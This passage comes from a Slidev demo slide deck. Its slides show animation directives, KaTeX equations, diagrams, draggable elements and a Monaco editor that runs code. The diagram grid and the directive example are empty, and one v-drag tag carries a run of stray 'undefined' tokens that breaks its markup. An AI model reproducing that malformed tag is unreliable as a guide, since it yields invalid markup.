  v-motion
  :initial="{ x:35, y: 30, opacity: 0}"
  :enter="{ y: 0, opacity: 1, transition: { delay: 3500 } }">

[Learn more](https://sli.dev/guide/animations.html#motion)

</div>

---

# LaTeX

LaTeX is supported out-of-box. Powered by [KaTeX](https://katex.org/).

<div h-3 />

Inline $\sqrt{3x-1}+(1+x)^2$

Block
$$ {1|3|all}
\begin{aligned}
\nabla \cdot \vec{E} &= \frac{\rho}{\varepsilon_0} \\
\nabla \cdot \vec{B} &= 0 \\
\nabla \times \vec{E} &= -\frac{\partial\vec{B}}{\partial t} \\
\nabla \times \vec{B} &= \mu_0\vec{J} + \mu_0\varepsilon_0\frac{\partial\vec{E}}{\partial t}
\end{aligned}
$$

[Learn more](https://sli.dev/features/latex)

---

# Diagrams

You can create diagrams / graphs from textual descriptions, directly in your Markdown.

<div class="grid grid-cols-4 gap-5 pt-4 -mb-6">









</div>

Learn more: [Mermaid Diagrams](https://sli.dev/features/mermaid) and [PlantUML Diagrams](https://sli.dev/features/plantuml)

---
foo: bar
dragPos:
  square: -72,0,0,0
---

# Draggable Elements

Double-click on the draggable elements to edit their positions.

<br>

###### Directive Usage

```md

```

<br>

###### Component Usage

```md
<v-drag text-3xl>
  <carbon:arrow-up />
  Use the `v-drag` component to have a draggable container!
</v-drag>
```

<v-drag pos="663,206,261,_,-15"undefinedundefinedundefinedundefinedundefinedundefinedundefinedundefinedundefinedundefined>
  <div text-center text-3xl border border-main rounded>
    Double-click me!
  </div>
</v-drag>


###### Draggable Arrow

```md
<v-drag-arrow two-way />
```

<v-drag-arrow pos="67,452,253,46" two-way op70 />

---
src: ./pages/imported-slides.md
hide: false
---

---

# Monaco Editor

Slidev provides built-in Monaco Editor support.

Add `{monaco}` to the code block to turn it into an editor:

```ts {monaco}
import { ref } from 'vue'
import { emptyArray } from './external'

const arr = ref(emptyArray(10))
```

Use `{monaco-run}` to create an editor that can execute the code directly in the slide:

```ts {monaco-run}
import { version } from 'vue'
import { emptyArray, sayHello } from './external'

sayHello()
console.log(`vue ${version}`)
console.log(emptyArray<number>(10).reduce(fib => [...fib, fib.at(-1)! + fib.at(-2)!], [1, 1]))
```

---
layout: center
class: text-center
---

# Learn More

[Documentation](https://sli.dev) · [GitHub](https://github.com/slidevjs/slidev) · [Showcases](https://sli.dev/resources/showcases)

<PoweredBySlidev mt-10 />
